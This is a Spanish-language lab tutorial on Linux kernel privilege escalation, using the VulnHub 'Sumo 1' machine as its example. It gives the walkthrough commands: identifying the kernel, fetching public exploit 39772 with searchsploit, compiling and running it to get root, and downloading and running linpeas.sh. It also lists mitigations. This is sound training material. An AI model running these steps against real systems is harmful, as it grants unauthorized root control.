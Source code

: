 
---

# Laboratorio: Explotación del Kernel en Linux

---

## ¿Qué es el Kernel?

> El *kernel* es el núcleo del sistema operativo. Se encarga de gestionar directamente los recursos del sistema:

- Memoria
- Procesos
- Archivos y sistemas de archivos
- Comunicación con dispositivos (drivers)

Dado que opera con los máximos privilegios posibles, cualquier vulnerabilidad en el kernel representa un riesgo **crítico** de seguridad: un atacante que logre explotarla puede conseguir acceso como `root`, comprometiendo totalmente el sistema.

---

## ¿Qué es la escalada de privilegios mediante explotación de kernel?

> La *escalada de privilegios* es la técnica mediante la cual un atacante, con acceso limitado (por ejemplo, como usuario normal), consigue elevar sus privilegios hasta convertirse en superusuario (`root`), aprovechando una vulnerabilidad del sistema.

Cuando esta técnica se basa en una **vulnerabilidad del kernel**, el atacante interactúa con un componente del núcleo (syscalls, módulos, drivers, etc.) de forma maliciosa para ejecutar código arbitrario con privilegios elevados.

---

## Tipos comunes de vulnerabilidades de kernel

| Tipo de vulnerabilidad        | Descripción breve                                                |
|------------------------------|------------------------------------------------------------------|
| Buffer overflow               | Escritura fuera de los límites de un búfer en espacio del kernel |
| Use-after-free               | Acceso a memoria ya liberada → control arbitrario de punteros    |
| Null pointer dereference     | Lectura/escritura en dirección `0x0` → ejecución controlada       |
| Race conditions               | Condiciones de carrera entre procesos para explotar sincronización|
| Privilege escalation en syscalls | Fallos en llamadas al sistema que no validan permisos correctamente |

---

## Detección de versión vulnerable

Antes de explotar una vulnerabilidad de kernel, hay que verificar:

```bash
uname -a
````

Ejemplo:

```bash
Linux victim 4.4.0-21-generic #37-Ubuntu SMP x86_64 GNU/Linux
```

### Acción:

Consultar en bases de datos de exploits conocidos (como `exploit-db`) si esa versión tiene vulnerabilidades públicas:

```bash
searchsploit linux kernel 4.4
```

---

## Ejemplo práctico: Explotación en la máquina _Sumo 1_ (VulnHub)

**Recurso de práctica**:  
-  [https://www.vulnhub.com/entry/sumo-1,480/](https://www.vulnhub.com/entry/sumo-1,480/)

Esta máquina vulnerable contiene un kernel antiguo con una vulnerabilidad pública que permite escalar privilegios.

### Paso 1: Enumeración de kernel

```bash
uname -a
```

Resultado:

```
Linux sumo 4.4.0-21-generic #37-Ubuntu SMP...
```

### Paso 2: Identificar exploit compatible

Buscar exploit compatible:

```bash
searchsploit 4.4.0-21
```

Resultado ejemplo:

```
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' Privilege Escalation
```

Descargar el exploit:

```bash
searchsploit -m 39772
```

Compilar en la máquina víctima (si se puede):

```bash
gcc 39772.c -o rootme
./rootme
```

### Resultado esperado:

```bash
# whoami
root
```

Ya tienes acceso completo como superusuario gracias a una vulnerabilidad del kernel.

---

## Mitigaciones y buenas prácticas

- **Actualizar el kernel** frecuentemente.
    
- **Aplicar parches de seguridad** apenas estén disponibles.
    
- **Usar mecanismos de protección adicionales** como:
    
    - `grsecurity`
        
    - `AppArmor` / `SELinux`
        
    - `kernel lockdown` (modo seguro del kernel)
        
- **Recompilar el kernel** sin módulos innecesarios ni soporte a arquitecturas inseguras.
    
- **Eliminar compiladores o herramientas de desarrollo** de entornos productivos para dificultar la explotación directa.
    

---

## Herramientas útiles

|Herramienta|Propósito|
|---|---|
|`uname -a`|Ver versión del kernel|
|`searchsploit`|Buscar exploits públicos conocidos|
|`exploit-db`|Base de datos de vulnerabilidades|
|`linpeas`|Detecta versiones de kernel vulnerables|
|`lse`|Enumera configuraciones débiles del sistema|
|`checksec`|Verifica protecciones del sistema/binarios|

---

## Bonus: Automatización de la detección

Usar `linpeas` para detectar automáticamente si el kernel es vulnerable:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Salida típica:

```
[+] Kernel version: 4.4.0-21-generic
[+] Possible kernel exploits:
   - Dirty Cow
   - OverlayFS
   - Bad Blue
```

---

## Conclusión

La explotación del kernel es una de las técnicas más poderosas en pentesting y Red Team cuando se trata de escalada de privilegios. Por ello, es fundamental:

-  Saber detectar versiones vulnerables  
-  Verificar la existencia de exploits públicos  
-  Configurar laboratorios controlados para pruebas  
-  Automatizar las auditorías de seguridad internas

**Nunca pruebes esto en entornos de producción sin autorización.**

---

